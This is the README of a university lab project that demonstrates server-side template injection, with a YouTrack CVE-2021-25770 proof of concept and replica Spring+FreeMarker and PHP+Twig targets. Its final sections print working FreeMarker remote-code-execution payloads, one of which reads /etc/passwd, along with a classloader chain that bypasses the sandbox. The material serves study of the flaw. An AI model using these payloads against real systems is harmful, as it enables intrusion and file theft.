

# Server Side Template Injection Project (CS5331)
This Docker project contains a case study POC for CVE 2021-25770 on Youtrack, a replica code on Spring+Freemarker as well as replica code on PHP+Twig to demonstrate the generalized concept of SSTI.



## Installation and Setup
The project require `Vagrant v2.3.4` and `VirtualBox v7.x` installed, and execute the following on an x86 environment:

```
$ git https://github.com/lamyongxian/cs5331-ssti.git
$ cd ./cs5331-ssti
$ vagrant up
```

## Accessing the POCs
1. Youtrack Vulnerable*: http://192.168.56.10:8080/
2. Youtrack Baseline*: http://192.168.56.10:8081/
3. Spring + Freemarker: http://192.168.56.10:8082/
4. PHP + Twig: http://192.168.56.10:8083/

*At this point, a Youtrack require a token to be entered during initial setup, which can be found in the follow directory *within the Docker container*:
`/root/teamsysdata/conf/internal/services/configurationWizard/wizard_token.txt`

### On VM `SERVERSSTI`:
(username: `vagrant`, password: `vagrant`)

To retrieve the Youtrack containers name:
```
$ sudo docker ps -a
```

Then use the `docker exec` to attach to respective Docker container
```
$ sudo docker exec -it <Container ID> bash
# cat /root/teamsysdata/conf/internal/services/configurationWizard/wizard_token.txt
```

## Example of RCE code on Freemarker
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}
```
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("cat /etc/passwd")}
```

## ALLOW_NOTHING_RESOLVER (Since v2.3.17) Bypass for Freemarker
Using an underlying JDK-Spring vulnerability in `class.protectionDomain.classLoader` (Like Spring4Shell) to by-pass framework level sandbox protection:
```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```
